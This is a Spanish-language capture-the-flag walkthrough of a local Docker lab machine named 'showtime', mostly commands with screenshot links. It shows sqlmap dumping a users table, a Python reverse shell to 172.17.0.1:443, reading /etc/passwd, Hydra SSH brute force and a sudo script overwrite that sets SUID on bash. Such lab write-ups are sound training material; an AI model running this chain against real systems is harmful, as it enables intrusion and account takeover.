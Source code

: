 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh showtime.tar
```

![Pasted image 20250216211018](https://github.com/user-attachments/assets/d5119ff9-f064-4123-9901-ca4ba78d7f84)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250218091735](https://github.com/user-attachments/assets/8cc75d3b-d002-4840-801f-6763c72e5020)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

Nos metemos en la web:

![Pasted image 20250218091931](https://github.com/user-attachments/assets/be5c522a-6286-4032-a207-9176b6fd9765)

Hacemos **SQL Injection**:

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms --dbs --batch
```

![Pasted image 20250218092529](https://github.com/user-attachments/assets/ce56c419-e434-4267-a5b7-e1302e8bddd3)

![Pasted image 20250218092656](https://github.com/user-attachments/assets/739d4a4b-8fba-47d0-ba7e-463ec47cebda)

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users --tables --batch
```

![Pasted image 20250218092752](https://github.com/user-attachments/assets/c583fdb2-ff24-4a0f-83fc-b5610c5218eb)

![Pasted image 20250218092806](https://github.com/user-attachments/assets/62c113a7-ca5a-4107-abe8-1c46f49fe603)

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios --columns --batch
```

![Pasted image 20250218092857](https://github.com/user-attachments/assets/4c4153d4-1f0c-42b9-a7bb-3ca380210b47)

![Pasted image 20250218092911](https://github.com/user-attachments/assets/f436dfb9-1441-4167-b779-376586e96508)

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios -C id,password,username --dump --batch
```

![Pasted image 20250218092943](https://github.com/user-attachments/assets/c4f2fc6d-72ac-4029-b4ea-4f21727acba9)

![Pasted image 20250218092957](https://github.com/user-attachments/assets/9864c095-854a-4393-83b0-a8b78084286f)

![Pasted image 20250218093145](https://github.com/user-attachments/assets/46ef80a3-d868-460d-b9db-2b415d4d7ebc)

![Pasted image 20250218093220](https://github.com/user-attachments/assets/7d3618a5-a687-4bf7-927c-8cb91bc6bfcb)

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 443
```

![Pasted image 20250218094005](https://github.com/user-attachments/assets/227ce5c5-6627-425d-a83d-38b579edf2c9)

```Python
import os
os.system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'")
```

![Pasted image 20250218093902](https://github.com/user-attachments/assets/b34da999-2c6a-4f3d-9c95-6c74301a341b)

Miramos en la shell:

![Pasted image 20250218093941](https://github.com/user-attachments/assets/408f483f-ace6-479d-95cd-c5f588861cca)

```Bash
cat /etc/passwd
```

![Pasted image 20250218094310](https://github.com/user-attachments/assets/343870ad-cba2-4a80-a1a8-582aa17d411d)

```Bash
ls -la /tmp
```

![Pasted image 20250218095339](https://github.com/user-attachments/assets/c4f1ab1c-9140-4b58-84bb-dcc37fdf6e3f)

```Bash
cat /tmp/.hidden_text.txt
```

![Pasted image 20250218095440](https://github.com/user-attachments/assets/8b16fabb-3879-451d-9e80-816b7128a2f5)

```Bash
nano users.txt
```

![Pasted image 20250218095703](https://github.com/user-attachments/assets/57bc72f2-a08a-487b-879f-0b07a9f9c4e3)

```Bash
joe
ubuntu
luciano
```

![Pasted image 20250218095747](https://github.com/user-attachments/assets/db901a35-bcf3-4223-a9f2-50f5a3b7c485)

```Bash
nano password.txt
```

![Pasted image 20250218095502](https://github.com/user-attachments/assets/6073c6ba-b838-4a78-bc42-e0356335cd48)

```Bash
HESOYAM
UZUMYMW
JUMPJET
LXGIWYL
KJKSZPJ
YECGAA
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
AEZAKMI
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
BLUESUEDESHOES
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
CJPHONEHOME
SPEEDFREAK
BUBBLECARS
KANGAROO
CRAZYTOWN
EVERYONEISRICH
EVERYONEISPOOR
CHITTYCHITTYBANGBANG
FLYINGTOSTUNT
FLYINGFISH
MONSTERMASH
BIFBUZZ
WHEELSONLYPLEASE
SLOWMO
SPECIALK
JUMPJET
FLYINGTOSTUNT
FLYINGFISH
ASNAEB
BTCDBCB
KVGYZQK
HELLOLADIES
BGLUAWML
OSRBLHH
LJSPQK
VKYPQCF
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
SPEEDFREAK
BUBBLECARS
```

![Pasted image 20250218095551](https://github.com/user-attachments/assets/511f0ca8-4c26-4e5a-a3e0-98ba5acb21d5)

Las haremos minúsculas:

```Bash
cat password.txt | tr '[:upper:]' '[:lower:]' > password-minus.txt
```

![Pasted image 20250218100106](https://github.com/user-attachments/assets/05e62ae4-0312-4a42-8fb1-855831fc6e8f)

```Bash
cat password-minus.txt
```

![Pasted image 20250218100128](https://github.com/user-attachments/assets/6c882f85-03df-4e79-b22e-36bd20ca3ff8)

Fuerza Bruta con **Hydra**:

```Bash
hydra -L users.txt -P password-minus.txt ssh://172.17.0.2
```

![Pasted image 20250218100349](https://github.com/user-attachments/assets/89c6ed84-0e75-49b4-acc5-d33dfa0b9aa4)

Nos conectamos con **SSH**:

```Bash
ssh joe@172.17.0.2
```

![Pasted image 20250218100328](https://github.com/user-attachments/assets/06f530f7-0d4c-4794-a0fc-59950f9a56f3)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250218100409](https://github.com/user-attachments/assets/e99dbc4e-29db-4c44-bd18-be0a57dfa6a4)

```Bash
sudo -u luciano posh
```

![Pasted image 20250218100650](https://github.com/user-attachments/assets/9b2554f4-8850-46a2-8eb0-43d6a22adcf3)

```Bash
/bin/bash -i
```

![Pasted image 20250218100702](https://github.com/user-attachments/assets/ba6102f3-9980-4aeb-9abe-c406f792253b)

```Bash
sudo -l
```

![Pasted image 20250218100724](https://github.com/user-attachments/assets/ee1de993-5e10-4c2d-801c-305f7c7092bd)

```Bash
cd /home/luciano
```

![Pasted image 20250218100802](https://github.com/user-attachments/assets/bf8c16b7-11e0-48cf-beba-754b734f761e)

```Bash
ls -l script.sh
```

![Pasted image 20250218100942](https://github.com/user-attachments/assets/d1e879c3-0a81-4c89-a009-3139190a2e25)

```Bash
cat script.sh
```

![Pasted image 20250218100914](https://github.com/user-attachments/assets/d141db5e-33a7-4282-a8f9-ec1a6c7422f8)

```Bash
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > script.sh
```

![Pasted image 20250218113207](https://github.com/user-attachments/assets/1b1792ca-a542-4121-aac5-507f056bbf26)

```Bash
cat script.sh
```

![Pasted image 20250218105112](https://github.com/user-attachments/assets/9a37ec6c-61db-4fd1-9e19-8777de3c70a4)

```Bash
sudo -u root /bin/bash /home/luciano/script.sh
```

![Pasted image 20250218113436](https://github.com/user-attachments/assets/c0bdbc6b-d129-4e55-ae21-4a92f8d596dc)

```Bash
bash -p
```

![Pasted image 20250218113759](https://github.com/user-attachments/assets/bfae33f7-32b3-4e34-95a1-aa061ba49136)

```Bash
whoami
```

![Pasted image 20250224162545](https://github.com/user-attachments/assets/385b5dc2-335a-487d-9bc5-a860e9d77016)
